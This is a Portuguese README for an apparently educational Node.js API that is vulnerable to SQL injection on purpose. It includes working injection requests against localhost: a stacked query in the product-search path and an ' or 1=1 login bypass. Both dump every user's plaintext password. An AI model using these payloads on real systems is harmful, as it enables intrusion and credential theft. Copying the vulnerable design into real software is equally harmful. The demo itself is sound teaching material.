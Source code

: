 # SQL_Injection

## APRESENTAÇÃO
API para exemplificar uma SQL INJECTION.

## Error Codes
** 404 - Produto não encontrado **
Não foi encontrado qualquer produto com o nome digitado

** 401 - Dados incorretos **
Login ou senha do usuários estão incorretos

## Rotas Vulneráveis

### GET - Busca produtos
Busca produtos a partir do nome passado como parâmetro.
#### Exemplo
##### Request
```HTTP
HTTP
GET /products/camiseta HTTP/1.1
Host: localhost:3000
```
##### Response
body
```HTTP
json
[
  {
    "id": 1,
    "nome": "camiseta",
    "descricao": "lorem ipsum",
    "preco": 20.5
  },
  {
    "id": 2,
    "nome": "camiseta",
    "descricao": "lorem ipsum",
    "preco": 25
  }
]
```

### POST - LOGIN
Verifica se o usuário existe a partir do login e senha passados no corpo da requisição.
#### Exemplo
##### Request
```HTTP
HTTP
POST /login HTTP/1.1
Host: localhost:3000
Content-Length: 57

{
    "login": "userlogin",
    "senha": "senhasecreta"
}
```
##### Response
body
```HTTP
json
[
    {
        "id": 2,
        "nome": "Usuario 1",
        "login": "userlogin",
        "senha": "senhasecreta"
    }
]
```
## Instruções para executar o projeto
### 1) Clone o projeto.
`git clone https://github.com/Luizebmartins/SQL_Injection.git`
### 2) Entre na pasta do projeto.
`cd SQL_Injection`
### 3) Instale as depend&ecirc;ncias.
`npm i`

### 4) execute o projeto.
`node server/app.js`

## Exemplos de SQL Injection que funcionam no projeto
### GET - Busca produtos
##### Request
```HTTP
HTTP
GET /products/camiseta'; select * from usuarios; -- HTTP/1.1
Host: localhost:3000
```
##### Response
body
```HTTP
json
[
    {
        "id": 1,
        "nome": "admin",
        "login": "admin",
        "senha": "secrepassword"
    },
    {
        "id": 2,
        "nome": "Usuario 1",
        "login": "userlogin",
        "senha": "senhasecreta"
    },
    {
        "id": 3,
        "nome": "Usuario 2",
        "login": "superlogin",
        "senha": "incrivelsenha"
    }
]
```

### POST - LOGIN
##### Request
```HTTP
HTTP
POST /login HTTP/1.1
Host: localhost:3000
Content-Length: 68

{
    "login": "userlogin' or 1=1;--",
    "senha": "senhasecreta"
}
```
##### Response
body
```HTTP
json
[
    {
        "id": 1,
        "nome": "admin",
        "login": "admin",
        "senha": "secrepassword"
    },
    {
        "id": 2,
        "nome": "Usuario 1",
        "login": "userlogin",
        "senha": "senhasecreta"
    },
    {
        "id": 3,
        "nome": "Usuario 2",
        "login": "superlogin",
        "senha": "incrivelsenha"
    }
]
```
